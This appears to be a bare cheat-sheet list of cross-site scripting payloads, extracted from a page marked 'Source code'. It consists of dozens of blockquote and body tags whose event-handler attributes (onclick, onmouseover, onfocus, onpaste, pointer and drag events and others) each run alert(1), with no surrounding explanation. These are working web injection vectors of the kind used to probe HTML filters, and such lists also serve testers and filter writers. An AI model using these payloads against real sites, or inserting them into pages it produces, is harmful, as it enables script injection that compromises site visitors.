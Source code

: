 <blockquote onbeforecut="alert(1)" contenteditable>test</blockquote>
<blockquote onbeforescriptexecute=alert(1)><script>1</script>
<blockquote onblur=alert(1) id=x tabindex=1 style=display:block>test</blockquote><input value=clickme>
<blockquote onclick="alert(1)" style=display:block>test</blockquote>
<blockquote oncontextmenu="alert(1)" style=display:block>test</blockquote>
<blockquote oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<blockquote oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<blockquote ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</blockquote>
<blockquote onfocusout=alert(1) id=x tabindex=1 style=display:block>test</blockquote><input value=clickme>
<blockquote onkeydown="alert(1)" contenteditable style=display:block>test</blockquote>
<blockquote onkeypress="alert(1)" contenteditable style=display:block>test</blockquote>
<blockquote onkeyup="alert(1)" contenteditable style=display:block>test</blockquote>
<blockquote onmousedown="alert(1)" style=display:block>test</blockquote>
<blockquote onmouseenter="alert(1)" style=display:block>test</blockquote>
<blockquote onmouseleave="alert(1)" style=display:block>test</blockquote>
<blockquote onmousemove="alert(1)" style=display:block>test</blockquote>
<blockquote onmouseout="alert(1)" style=display:block>test</blockquote>
<blockquote onmouseover="alert(1)" style=display:block>test</blockquote>
<blockquote onmouseup="alert(1)" style=display:block>test</blockquote>
<blockquote onmousewheel=alert(1) style=display:block>requires scrolling
<blockquote onpaste="alert(1)" contenteditable>test</blockquote>
<blockquote onpointerdown=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerenter=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerleave=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointermove=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerout=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerover=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerrawupdate=alert(1) style=display:block>XSS</blockquote>
<blockquote onpointerup=alert(1) style=display:block>XSS</blockquote>
<body draggable="true" ondrag="alert(1)" style=display:block>test</body>
<body draggable="true" ondragend="alert(1)" style=display:block>test</body>
<body draggable="true" ondragenter="alert(1)" style=display:block>test</body>
<body draggable="true" ondragleave="alert(1)" style=display:block>test</body>
<body draggable="true" ondragstart="alert(1)" style=display:block>test</body>
<body id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></body>
<body id=x tabindex=1 onfocus=alert(1)></body>
<body id=x tabindex=1 onfocusin=alert(1)></body>
<body onafterscriptexecute=alert(1)><script>1</script>
<body onbeforecopy="alert(1)" contenteditable>test</body>
<body onbeforecut="alert(1)" contenteditable>test</body>
<body onbeforescriptexecute=alert(1)><script>1</script>
<body onblur=alert(1) id=x tabindex=1 style=display:block>test</body><input value=clickme>
<body onclick="alert(1)" style=display:block>test</body>
<body oncontextmenu="alert(1)" style=display:block>test</body>
<body oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<body oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<body ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</body>
<body onfocusout=alert(1) id=x tabindex=1 style=display:block>test</body><input value=clickme>
<body onkeydown="alert(1)" contenteditable style=display:block>test</body>
<body onkeypress="alert(1)" contenteditable style=display:block>test</body>
<body onkeyup="alert(1)" contenteditable style=display:block>test</body>
<body onmousedown="alert(1)" style=display:block>test</body>
<body onmouseenter="alert(1)" style=display:block>test</body>
<body onmouseleave="alert(1)" style=display:block>test</body>
<body onmousemove="alert(1)" style=display:block>test</body>
<body onmouseout="alert(1)" style=display:block>test</body>
<body onmouseover="alert(1)" style=display:block>test</body>
<body onmouseup="alert(1)" style=display:block>test</body>
<body onmousewheel=alert(1) style=display:block>requires scrolling
<body onpaste="alert(1)" contenteditable>test</body>
<body onpointerdown=alert(1) style=display:block>XSS</body>
<body onpointerenter=alert(1) style=display:block>XSS</body>